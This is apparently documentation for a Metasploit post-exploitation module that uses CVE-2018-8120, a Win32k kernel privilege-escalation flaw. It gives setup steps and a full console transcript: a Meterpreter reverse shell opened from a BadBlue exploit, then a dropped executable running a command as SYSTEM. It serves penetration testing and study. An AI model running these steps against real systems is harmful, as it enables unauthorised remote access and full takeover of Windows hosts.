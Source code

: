 ## Overview

An elevation of privilege vulnerability exists in Windows when the Win32k component fails to properly handle objects in memory. An attacker who successfully exploited this vulnerability could run arbitrary code in kernel mode. An attacker could then install programs; view, change, or delete data; or create new accounts with full user rights.

To exploit this vulnerability, an attacker would first have to log on to the system. An attacker could then run a specially crafted application that could exploit the vulnerability and take control of an affected system.

The update addresses this vulnerability by correcting how Win32k handles objects in memory.

* https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2018-8120
* http://bigric3.blogspot.com/2018/05/cve-2018-8120-analysis-and-exploit.html
* https://github.com/bigric3/cve-2018-8120
* https://github.com/unamer/CVE-2018-8120

## Verification steps

1. Start `msfconsole`
2. Get a session
3. `use post/windows/escalate/ms18_8120_win32k_privsec`
4. `set SESSION [SESSION]`
5. `set POCCMD whoami`
6. `run`

## Usage

```
msf exploit(windows/http/badblue_passthru) > run

[*] Started reverse TCP handler on 192.168.1.102:4444 
[*] Trying target BadBlue EE 2.7 Universal...
[*] Sending stage (179779 bytes) to 192.168.1.105
[*] Meterpreter session 1 opened (192.168.1.102:4444 -> 192.168.1.105:49214) at 2018-09-18 14:52:55 +0530

meterpreter > getuid 
Server username: zero-PC\low
meterpreter > background 
[*] Backgrounding session 1...
msf exploit(windows/http/badblue_passthru) > use post/windows/escalate/ms18_8120_win32k_privsec 
msf post(windows/escalate/ms18_8120_win32k_privsec) > set SESSION 1
SESSION => 1
msf post(windows/escalate/ms18_8120_win32k_privsec) > set POCCMD whoami
POCCMD => whoami
msf post(windows/escalate/ms18_8120_win32k_privsec) > run

[!] SESSION may not be compatible with this module.
[*] exe name is: f4MZlRO4LZ.exe
[*] Reading Payload from file /opt/metasploit/apps/pro/vendor/bundle/ruby/2.3.0/gems/metasploit-framework-4.17.11/data/exploits/CVE-2018-0824/CVE-2018-8120.exe
[!] writing to %TEMP%
[+] Persistent Script written to C:\Users\LOW~1.ZER\AppData\Local\Temp\f4MZlRO4LZ.exe
[*] Starting module..

[*] Location of CVE-2018-8120.exe is: C:\Users\LOW~1.ZER\AppData\Local\Temp\f4MZlRO4LZ.exe
[*] Executing command : C:\Users\LOW~1.ZER\AppData\Local\Temp\f4MZlRO4LZ.exe whoami
CVE-2018-8120 exploit by @unamer(https://github.com/unamer)
[+] Detected kernel ntoskrnl.exe
[+] Get manager at fffff900c1a4e720,worker at fffff900c1a52060
[+] Triggering vulnerability...
[+] Overwriting...fffff80002a35c38
[+] Elevating privilege...
[+] Cleaning up...
[+] Trying to execute whoami as SYSTEM...
[+] Process created with pid 3516!
nt authority\system

[*] Post module execution completed
msf post(windows/escalate/ms18_8120_win32k_privsec) >
```
